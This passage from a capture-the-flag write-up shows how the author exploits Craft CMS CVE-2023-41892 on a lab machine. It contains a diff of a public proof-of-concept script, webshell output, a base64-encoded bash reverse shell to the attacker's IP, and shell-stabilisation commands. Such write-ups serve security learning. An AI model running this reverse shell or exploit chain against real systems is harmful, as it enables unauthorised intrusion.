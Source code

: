 Unfortunately we are not given a list of CVEs to check for what is fixed here. Also searching for generic rce vulns, we might find this critical severity level vulnerability, only fixed in version 4.4.15: https://putyourlightson.com/articles/critical-craft-cms-security-vulnerability This is given a CVE, CVE-2023-41892 with among the highest scores I've seen in a while. Wow! 
We can find a [proof of concept script on github](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce) to try out. A few small changes were done to the original script in troubleshooting:
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ diff original.py exploit.py
25c25
<     response = requests.post(url, headers=headers, data=data, files=files, proxies={"http": "http://localhost:8080"})                                                                                                                 
---
>     response = requests.post(url, headers=headers, data=data, files=files)
50c50
<     response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})    
---
>     response = requests.post(url, headers=headers, data=data)    
71c71
<         tmpDir = "/tmp" if upload_tmp_dir == "no value" else upload_tmp_dir
---
>         tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
```
Now when we execute, the webshell works!
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ python exploit.py http://surveillance.htb/
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Crash the php process and write temp file successfully
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
To create a reverse shell, I base64 encode a basic payload from revshells.com and pipe it to base64:
```
$ echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMDIvODA4MCAwPiYx' | base64 -d | bash
```
Now on my nc listener, a reverse shell is established:
```
┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ nc -nvlp 8080 
listening on [any] 8080 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.245] 38598
bash: cannot set terminal process group (1091): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web/cpresources$ 
```
From here, we should stabilize the reverse shell using `script`:
```
www-data@surveillance:~/html/craft/web/cpresources$ script -qc /bin/bash /dev/null
<aft/web/cpresources$ script -qc /bin/bash /dev/null
www-data@surveillance:~/html/craft/web/cpresources$ ^Z
zsh: suspended  nc -nvlp 8080

┌──(kali㉿kali)-[~/Documents/Surveillance]
└─$ stty raw -echo; fg 
[1]  + continued  nc -nvlp 8080

```